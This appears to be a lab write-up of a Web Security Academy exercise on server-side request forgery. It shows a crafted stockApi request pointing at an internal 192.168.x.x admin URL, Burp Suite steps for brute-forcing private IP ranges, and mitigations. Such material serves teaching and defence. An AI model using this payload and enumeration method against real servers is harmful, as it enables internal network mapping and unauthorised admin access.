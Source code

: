 # 📘 Scenario 2: SSRF with Internal IP Brute-Force via `stockApi`

## 🔎 Vulnerability Description

In this scenario, the web application still uses a vulnerable `stockAPI` parameter to perform server-side HTTP requests. However, instead of targeting a known internal endpoint like `localhost`, the attacker **brute-forces private IP ranges** (e.g., `192.168.x.x`) to discover and interact with internal services.

> **Vulnerability Type:** Input Validation  
> **OWASP Top 10 ID:** A10:2021 – Server-Side Request Forgery  
> **Risk Level:** Medium  

---

## 🔧 Target
**URL:**

🔗 https://0a76000a03398fbb85232bdb00be0076.web-security-academy.net/product/stock

---

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0a76000a03398fbb85232bdb00be0076.web-security-academy.net
Cookie: session=Yg3LWOSSMIf40kXSzoE79hhlrCXByHy6
Content-Length: 40
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a76000a03398fbb85232bdb00be0076.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a76000a03398fbb85232bdb00be0076.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
 
stockApi=http://192.168.0.150:8080/admin

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3141

```
---

## 🧪 Exploitation Steps

Intercept the `POST` request using Burp Suite.

Modify `stockApi` parameter with different IP addresses in private ranges.

Observe the response:

HTTP 200 + HTML content → IP is reachable.

HTTP 502 / timeout → service not available.

Confirm which internal services respond to map internal network.

## 💥 Potential Impact

- **Internal network mapping**: Attackers can enumerate IP addresses and services not accessible from the internet.

- **Privilege escalation**: Access to admin panels, configuration endpoints, or cloud metadata APIs.

- **Pivot point**: Can be used in chained attacks to gain deeper access into protected zones.

## ✅ Mitigation Suggestions
Block all outbound server requests to private IP ranges unless explicitly allowed.

Use DNS resolution + IP validation to verify the legitimacy of destination URLs.

Rate-limit server-side request features to reduce brute-force attack surface.

Monitor abnormal request patterns and use network segmentation.

## 📸 Screenshot

![Exploitation Image Of Scenario 2](https://github.com/hovikhanh/ssrf-demo/images/Picture2.png "Exploitation Image Of Scenario 2")

## 🔗 References

[OWASP Testing Guide – Testing for SSRF](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)

[HackTricks – SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)